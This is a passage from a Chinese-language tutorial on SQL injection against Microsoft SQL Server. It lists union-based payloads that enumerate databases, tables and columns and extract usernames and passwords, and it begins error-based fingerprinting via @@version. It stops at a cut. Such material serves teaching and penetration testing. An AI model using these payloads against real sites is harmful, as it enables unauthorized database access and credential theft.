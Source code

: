 | substring()           | 截取字符串 substr(字符串，开始截取位置，截取长度) ，例如substring('abcdef',1,2) 表示从第一位开始，截取2位，即 'ab' |

# 常见注入类型

## 联合查询注入

```sql
1.判断注入点及类型
?id=1' and 1=1--+
?id=1' and 1=2--+
# 那么此处是字符型注入，需要单引号闭合

2.判断字段数
?id=1' order by 3--+
?id=1' order by 4--+

3.联合查询判断回显点
?id=0' union select 1,2,3--+

4.获取当前数据库名字和版本信息
?id=0' union select 1,db_name(),@@version--+

5.获取所有的数据库名，database在较高版本的SQL Server 中已经变成了动态视图
?id=0' union select 1,db_name(),name from master.sys.databases where name not in(select top 1 name 
from master.sys.databases)--+

6.获取所有的表名，当information前面没有库名时，默认查询当前数据库，与mysql不同，每个数据库都有单独的information表，可以用master.information_schema.tables 来查询不同数据库的信息
?id=0' union select top 1 1,2,table_name from information_schema.tables where table_name not in
(select top 1 table_name from information_schema.tables)--+

7.获取所有的字段名，多加些限定条件方便注入
?id=0' union select top 1 1,2,column_name from information_schema.columns where column_name not in
(select top 1 column_name from information_schema.columns)--+

?id=0' union select top 1 1,2,column_name from information_schema.columns where table_name='users' and 
column_name not in(select top 2 column_name from information_schema.columns where table_name='users')--

8.获取users表账号密码信息
?id=0' union select top 1 1,username,password from users--+
```

## 报错注入

- MSSQL数据库是强类型语言数据库，当类型不一致时将会报错，配合子查询即可实现报错注入

```sql
1.判断注入点
id=1

2.判断是否为MSSQL数据库
# 返回正常为MSSQL
id=1 and exists(select * from sysobjects)
id=1 and exists(select count(*) from sysobjects)

3.判断数据库版本号
id=1 and @@version>0--+
# @@version是mssql的全局变量，@@version>0执行时转换成数字会报错，也就将数据库信息暴露出来了,必须是在where后面拼接执行

4.获取当前数据库名
```